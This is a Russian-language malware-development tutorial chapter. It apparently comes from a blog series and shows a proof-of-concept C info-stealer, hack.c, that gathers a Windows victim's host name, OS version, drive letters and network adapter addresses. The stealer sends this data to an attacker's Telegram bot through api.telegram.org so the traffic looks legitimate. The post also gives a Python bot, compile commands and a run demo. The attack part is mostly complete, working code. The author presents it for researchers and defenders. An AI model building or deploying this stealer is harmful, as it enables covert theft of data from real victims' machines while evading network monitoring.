

\newpage
\subsection{51. трюк разработки вредоносного ПО. Кража данных через легитимный Telegram API. Простой пример на C.}

﷽

{width="80%"}      

На одной из моих последних презентаций на конференции [BSides Prishtina](https://bsidesprishtina.org/) аудитория задала вопрос, как злоумышленники используют легитимные сервисы для управления вирусами (C2) или кражи данных с хоста жертвы.    

Этот пост просто демонстрирует простой Proof of Concept использования Telegram Bot API для кражи информации с Windows-хоста.    

### практический пример

Представим, что мы хотим создать простой стилер, который будет отправлять нам данные о хосте жертвы. Что-то простое, например, информацию о системе и адаптерах:    

```cpp
char systemInfo[4096];

// get host name
CHAR hostName[MAX_COMPUTERNAME_LENGTH + 1];
DWORD size = sizeof(hostName) / sizeof(hostName[0]);
GetComputerNameA(hostName, &size);  // Use GetComputerNameA for CHAR

// get OS version
OSVERSIONINFO osVersion;
osVersion.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
GetVersionEx(&osVersion);

// get system information
SYSTEM_INFO sysInfo;
GetSystemInfo(&sysInfo);

// get logical drive information
DWORD drives = GetLogicalDrives();

// get IP address
IP_ADAPTER_INFO adapterInfo[16];  // Assuming there are no more than 16 adapters
DWORD adapterInfoSize = sizeof(adapterInfo);
if (GetAdaptersInfo(adapterInfo, &adapterInfoSize) != ERROR_SUCCESS) {
printf("GetAdaptersInfo failed. error: %d has occurred.\n", GetLastError());
return false;
}

snprintf(systemInfo, sizeof(systemInfo),
  "Host Name: %s\n"  // Use %s for CHAR
  "OS Version: %d.%d.%d\n"
  "Processor Architecture: %d\n"
  "Number of Processors: %d\n"
  "Logical Drives: %X\n",
  hostName,
  osVersion.dwMajorVersion, osVersion.dwMinorVersion, 
  osVersion.dwBuildNumber,
  sysInfo.wProcessorArchitecture,
  sysInfo.dwNumberOfProcessors,
  drives);

// Add IP address information
for (PIP_ADAPTER_INFO adapter = adapterInfo; adapter != NULL; adapter = adapter->Next) {
snprintf(systemInfo + strlen(systemInfo), sizeof(systemInfo) - strlen(systemInfo),
  "Adapter Name: %s\n"
  "IP Address: %s\n"
  "Subnet Mask: %s\n"
  "MAC Address: %02X-%02X-%02X-%02X-%02X-%02X\n",
  adapter->AdapterName,
  adapter->IpAddressList.IpAddress.String,
  adapter->IpAddressList.IpMask.String,
  adapter->Address[0], adapter->Address[1], adapter->Address[2],
  adapter->Address[3], adapter->Address[4], adapter->Address[5]);
}
```

Но если мы отправим такую информацию на какой-то IP-адрес, это покажется странным и подозрительным.    
Что если вместо этого создать Telegram-бота и отправлять информацию через него?    

Сначала создаём простого Telegram-бота:    

{width="80%"}      

Как можно заметить, мы можем использовать HTTP API для взаимодействия с этим ботом.    

На следующем шаге устанавливаем библиотеку Telegram для Python:    

```bash
python3 -m pip install python-telegram-bot
```

{width="80%"}      

Затем я немного модифицировал простой скрипт: [echo-бот](https://github.com/python-telegram-bot/python-telegram-bot/blob/master/examples/echobot.py) - `mybot.py`:    

```python
#!/usr/bin/env python
# pylint: disable=unused-argument
# This program is dedicated to the public domain under the CC0 license.

"""
Simple Bot to reply to Telegram messages.

First, a few handler functions are defined. Then, those functions are passed to
the Application and registered at their respective places.
Then, the bot is started and runs until we press Ctrl-C on the command line.

Usage:
Basic Echobot example, repeats messages.
Press Ctrl-C on the command line or send a signal to the process to stop the
bot.
"""

import logging

from telegram import ForceReply, Update
from telegram.ext import Application, CommandHandler, ContextTypes, 
MessageHandler, filters

# Enable logging
logging.basicConfig(
    format="%(asctime)s - %(name)s - %(levelname)s - %(message)s", level=logging.INFO
)
# set higher logging level for httpx to avoid all GET and POST requests being logged
logging.getLogger("httpx").setLevel(logging.WARNING)

logger = logging.getLogger(__name__)

# Define a few command handlers. These usually take the two arguments update and
# context.
async def start(update: Update, context: ContextTypes.DEFAULT_TYPE) -> None:
    """Send a message when the command /start is issued."""
    user = update.effective_user
    await update.message.reply_html(
        rf"Hi {user.mention_html()}!",
        reply_markup=ForceReply(selective=True),
    )

async def help_command(update: Update, context: ContextTypes.DEFAULT_TYPE) -> None:
    """Send a message when the command /help is issued."""
    await update.message.reply_text("Help!")

async def echo(update: Update, context: ContextTypes.DEFAULT_TYPE) -> None:
    """Echo the user message."""
    print(update.message.chat_id)
    await update.message.reply_text(update.message.text)

def main() -> None:
    """Start the bot."""
    # Create the Application and pass it your bot's token.
    application = Application.builder().token("my token here").build()

    # on different commands - answer in Telegram
    application.add_handler(CommandHandler("start", start))
    application.add_handler(CommandHandler("help", help_command))

    # on non command i.e message - echo the message on Telegram
    application.add_handler(MessageHandler(filters.TEXT & ~filters.COMMAND, echo))

    # Run the bot until the user presses Ctrl-C
    application.run_polling(allowed_updates=Update.ALL_TYPES)


if __name__ == "__main__":
    main()
```

Как видите, я добавил логику вывода идентификатора чата:    

```python
async def echo(update: Update, context: ContextTypes.DEFAULT_TYPE) -> None:
    """Echo the user message."""
    print(update.message.chat_id)
    await update.message.reply_text(update.message.text)
```

Давайте проверим эту простую логику:

```bash
python3 mybot.py
```

{width="80%"}

{width="80%"}

{width="80%"}

Как видите, `chat ID` успешно распечатан.

Для отправки через Telegram Bot API я лишь создал эту простую функцию:

```cpp
// send data to Telegram channel using winhttp
int sendToTgBot(const char* message) {
  const char* chatId = "466662506";
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, 
  WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. Error: %d has occurred.\n", GetLastError());
    return 1;
  }

  hConnect = WinHttpConnect(hSession, L"api.telegram.org", 
  INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
    fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hSession);
  }

  HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"POST", 
  L"/bot---xxxxxxxxYOUR_TOKEN_HERExxxxxx---/sendMessage", NULL, 
  WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);
  if (hRequest == NULL) {
    fprintf(stderr, "WinHttpOpenRequest. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
  }

  // construct the request body
  char requestBody[512];
  sprintf(requestBody, "chat_id=%s&text=%s", chatId, message);

  // set the headers
  if (!WinHttpSendRequest(hRequest, 
  L"Content-Type: application/x-www-form-urlencoded\r\n", -1, 
  requestBody, strlen(requestBody), strlen(requestBody), 0)) {
    fprintf(stderr, "WinHttpSendRequest. Error %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }

  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hSession);

  printf("successfully sent to tg bot :)\n");
  return 0;
}
```

Итак, полный исходный код выглядит так - `hack.c`:    

```cpp
/*
 * hack.c
 * sending victim's systeminfo via 
 * legit URL: Telegram Bot API
 * author @cocomelonc
*/
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>
#include <winhttp.h>
#include <iphlpapi.h>

// send data to Telegram channel using winhttp
int sendToTgBot(const char* message) {
  const char* chatId = "466662506";
  HINTERNET hSession = NULL;
  HINTERNET hConnect = NULL;

  hSession = WinHttpOpen(L"UserAgent", WINHTTP_ACCESS_TYPE_DEFAULT_PROXY, WINHTTP_NO_PROXY_NAME, WINHTTP_NO_PROXY_BYPASS, 0);
  if (hSession == NULL) {
    fprintf(stderr, "WinHttpOpen. Error: %d has occurred.\n", GetLastError());
    return 1;
  }

  hConnect = WinHttpConnect(hSession, L"api.telegram.org", INTERNET_DEFAULT_HTTPS_PORT, 0);
  if (hConnect == NULL) {
    fprintf(stderr, "WinHttpConnect. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hSession);
  }

  HINTERNET hRequest = WinHttpOpenRequest(hConnect, L"POST", L"/bot----TOKEN----/sendMessage", NULL, WINHTTP_NO_REFERER, WINHTTP_DEFAULT_ACCEPT_TYPES, WINHTTP_FLAG_SECURE);
  if (hRequest == NULL) {
    fprintf(stderr, "WinHttpOpenRequest. error: %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
  }

  // construct the request body
  char requestBody[512];
  sprintf(requestBody, "chat_id=%s&text=%s", chatId, message);

  // set the headers
  if (!WinHttpSendRequest(hRequest, L"Content-Type: application/x-www-form-urlencoded\r\n", -1, requestBody, strlen(requestBody), strlen(requestBody), 0)) {
    fprintf(stderr, "WinHttpSendRequest. Error %d has occurred.\n", GetLastError());
    WinHttpCloseHandle(hRequest);
    WinHttpCloseHandle(hConnect);
    WinHttpCloseHandle(hSession);
    return 1;
  }

  WinHttpCloseHandle(hConnect);
  WinHttpCloseHandle(hRequest);
  WinHttpCloseHandle(hSession);

  printf("successfully sent to tg bot :)\n");
  return 0;
}

// get systeminfo and send to chat via tgbot logic
int main(int argc, char* argv[]) {

  // test tgbot sending message
  char test[1024];
  const char* message = "meow-meow";
  snprintf(test, sizeof(test), "{\"text\":\"%s\"}", message);
  sendToTgBot(test);

  char systemInfo[4096];

  // Get host name
  CHAR hostName[MAX_COMPUTERNAME_LENGTH + 1];
  DWORD size = sizeof(hostName) / sizeof(hostName[0]);
  GetComputerNameA(hostName, &size);  // Use GetComputerNameA for CHAR

  // Get OS version
  OSVERSIONINFO osVersion;
  osVersion.dwOSVersionInfoSize = sizeof(OSVERSIONINFO);
  GetVersionEx(&osVersion);

  // Get system information
  SYSTEM_INFO sysInfo;
  GetSystemInfo(&sysInfo);

  // Get logical drive information
  DWORD drives = GetLogicalDrives();

  // Get IP address
  IP_ADAPTER_INFO adapterInfo[16];  // Assuming there are no more than 16 adapters
  DWORD adapterInfoSize = sizeof(adapterInfo);
  if (GetAdaptersInfo(adapterInfo, &adapterInfoSize) != ERROR_SUCCESS) {
    printf("GetAdaptersInfo failed. error: %d has occurred.\n", GetLastError());
    return false;
  }

  snprintf(systemInfo, sizeof(systemInfo),
    "Host Name: %s\n"  // Use %s for CHAR
    "OS Version: %d.%d.%d\n"
    "Processor Architecture: %d\n"
    "Number of Processors: %d\n"
    "Logical Drives: %X\n",
    hostName,
    osVersion.dwMajorVersion, osVersion.dwMinorVersion, osVersion.dwBuildNumber,
    sysInfo.wProcessorArchitecture,
    sysInfo.dwNumberOfProcessors,
    drives);

  // Add IP address information
  for (PIP_ADAPTER_INFO adapter = adapterInfo; adapter != NULL; adapter = adapter->Next) {
    snprintf(systemInfo + strlen(systemInfo), sizeof(systemInfo) - strlen(systemInfo),
    "Adapter Name: %s\n"
    "IP Address: %s\n"
    "Subnet Mask: %s\n"
    "MAC Address: %02X-%02X-%02X-%02X-%02X-%02X\n\n",
    adapter->AdapterName,
    adapter->IpAddressList.IpAddress.String,
    adapter->IpAddressList.IpMask.String,
    adapter->Address[0], adapter->Address[1], adapter->Address[2],
    adapter->Address[3], adapter->Address[4], adapter->Address[5]);
  }
  
  char info[8196];
  snprintf(info, sizeof(info), "{\"text\":\"%s\"}", systemInfo);
  int result = sendToTgBot(info);

  if (result == 0) {
    printf("ok =^..^=\n");
  } else {
    printf("nok <3()~\n");
  }

  return 0;
}
```

### демонстрация

Давайте проверим всё в действии.     

Компилируем наш "стилер" `hack.c`:    

```bash
x86_64-w64-mingw32-g++ -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ \
-s -ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc \
-fpermissive -liphlpapi -lwinhttp
```

{width="80%"}      

Запускаем его на моей виртуальной машине с Windows 11:    

```powershell
.\hack.exe
```

{width="80%"}      

Если проверить трафик через Wireshark, получаем IP-адрес `149.154.167.220`:    

```bash
whois 149.154.167.220
```

{width="80%"}      

Как можно заметить, всё работает идеально =^..^=!     

Сканирование через [WebSec Malware Scanner](https://websec.nl/en/scanner):     

{width="80%"}      

[https://websec.nl/en/scanner/result/45dfcb29-3817-4199-a6ef-da00675c6c32](https://websec.nl/en/scanner/result/45dfcb29-3817-4199-a6ef-da00675c6c32)     

Интересный результат.     

Конечно, это не сложный стилер, так как это просто "грязный PoC", а в реальных атаках используются стилеры с более сложной логикой, но, думаю, мне удалось показать суть и риски.   

Надеюсь, этот пост с практическим примером окажется полезным для исследователей вредоносного ПО, специалистов red team и повысит осведомлённость синих команд об этой интересной технике.    

[Telegram Bot API](https://core.telegram.org/bots/api)    
[https://github.com/python-telegram-bot/python-telegram-bot](https://github.com/python-telegram-bot/python-telegram-bot)     
[WebSec Malware Scanner](https://websec.nl/en/scanner)    
[исходный код на Github](https://github.com/cocomelonc/meow/tree/master/2024-06-16-malware-trick-40)    
